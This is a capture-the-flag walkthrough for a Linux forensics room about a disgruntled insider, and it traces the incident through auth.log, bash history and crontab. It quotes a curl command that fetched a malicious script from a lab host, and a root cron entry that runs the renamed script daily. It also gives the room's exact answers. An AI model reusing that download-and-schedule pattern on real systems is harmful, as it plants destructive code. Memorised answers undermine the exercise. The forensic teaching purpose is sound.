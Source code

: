 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Disgruntled
# DESCRIPTION       . Use your Linux forensics knowledge to investigate an incident.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/disgruntled
```

> The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

- We can find anything ran as sudo in the `/var/log/auth.log` file(s). 

```
cat /var/log/auth.log | grep -i apt | tail
```

```
{trimmed} sudo:    cybert : TTY=pts/0 ; PWD=/home/cybert; USER=root; COMMAND=/usr/bin/apt install dokuwiki
```

> What was the present working directory (PWD) when the previous command was run?

- Answered in the output of the previous command.

> Which user was created after the package from the previous task was installed?

- Using the same principle as in the first question

```
cat /var/log/auth.log | grep -i adduser | tail
```

```
{trimmed} ; COMMAND = /usr/sbin/adduser it-admin
```

- the user can be found in `/etc/passwd` too.

> A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

```
cat /var/log/auth.log | grep -i visudo | tail
```

- DEC 28 06:27:34

> A script file was opened using the "vi" text editor. What is the name of this file?

```
cat /var/log/auth.log | grep -i vi | tail
```

- bomb.sh

> What is the command used that created the file bomb.sh?

- The command can be found in `/home/it-admin/.bash_history` (because the previous command was run by it-admin)

```
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
```

> The file was renamed and moved to a different directory. What is the full path of this file now?

- This can be found in `/home/it-admin/.viminfo`.

- The file has been saved as `/bin/os-update.sh`.

> When was the file from the previous question last modified? (Format: Month Day HH:MM)

- I've used `stat /bin/os-update.sh`.

- DEC 28 06:29

> What is the name of the file that will get created when the file from the first question executes?

- Can be found in the code of `/bin/os-update.sh`.

- goodbye.txt

> At what time will the malicious file trigger? (Format: HH:MM AM/PM)

- The file was found in `/etc/crontab` with the following entry

```
#m h dom mon dow user command
0  8 *   *    *  root /bin/os-update.sh
```

- This means that the file will execute at `08:00 AM`.

